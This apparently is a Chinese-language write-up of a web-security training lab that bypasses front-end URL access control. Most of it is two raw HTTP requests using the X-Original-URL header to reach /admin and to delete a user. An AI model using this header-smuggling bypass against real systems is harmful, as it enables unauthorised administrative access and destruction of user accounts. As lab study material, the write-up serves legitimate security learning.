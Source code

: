 有时应用程序可能配置有：

```javascript
DENY: POST, /admin/deleteUser, managers
```



## 不允许用户访问/admin/deleteUser目录



## 访问admin panel网页立马返回 "Access denied"

## 推测可能是前端进行了检测。尝试使用X-Original-Url : 绕过



## 1. 访问admin:

```javascript
// 前端认为只访问了/目录。不做拦截
GET / HTTP/1.1
Host: ac311fd21e5434f680714ea6005a00da.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac311fd21e5434f680714ea6005a00da.web-security-academy.net/
//服务端通过X-Original-URL判断url。认为请求了/admin目录
X-Original-URL: /admin
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: session=F8fRZQ1Ikq1pcAfkPO8yX7dTQIMb7GUm


```



![](images/FE6AE4619A494667B65D76CA62DAEBDAclipboard.png)



## 2. 删除用户：

```javascript
//传递的参数
GET /?username=wiene HTTP/1.1
Host: ac311fd21e5434f680714ea6005a00da.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac311fd21e5434f680714ea6005a00da.web-security-academy.net/
//访问/admin/delete目录
X-Original-URL: /admin/delete
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: session=F8fRZQ1Ikq1pcAfkPO8yX7dTQIMb7GUm

```


